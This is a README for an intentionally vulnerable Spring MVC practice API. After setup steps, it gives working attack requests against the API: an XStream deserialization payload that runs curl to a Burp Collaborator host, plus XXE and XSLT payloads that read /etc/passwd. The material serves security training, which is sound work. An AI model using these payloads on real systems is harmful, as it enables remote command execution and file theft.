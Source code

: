 # Sample Spring MVC API vulnerable to deserialization attacks

1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `mvn clean install jetty:run`

Accessible on port 8080

### Running in docker
1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `docker run -v `pwd`:/data -p 8080:8080 -it maven /bin/bash`
4. `cd /data`
5. `mvn clean install jetty:run`

## Normal request

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<contact>  
    <id>1</id>
    <firstName>yo</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>  
```

## Deserialization attack

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<dynamic-proxy>  
  <interface>org.insecurelabs.api.contacts.Contact</interface>  
  <handler class="java.beans.EventHandler">  
    <target class="java.lang.ProcessBuilder">
      <command><string>/usr/bin/curl</string><string>http://[yourid].burpcollaborator.net</string></command>
    </target>
    <action>start</action>
  </handler>  
</dynamic-proxy> 
```

## XXE

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ELEMENT string (#PCDATA)>
    <!ENTITY content SYSTEM "file:/etc/passwd">
]>
<contact>  
    <id>1</id>
    <firstName>&content;</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>
```

## XSLT 2.0

```
POST /api/contacts/1/html HTTP/1.1
Host: localhost
Content-Type: application/xslt
Accept: text/html
Content-Length: 241

<?xml version="1.0" encoding="UTF-8" ?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
 <xsl:template match="/">
  <xsl:value-of select="unparsed-text('/etc/passwd')"/>
 </xsl:template>
</xsl:stylesheet>
```


# Resources
http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
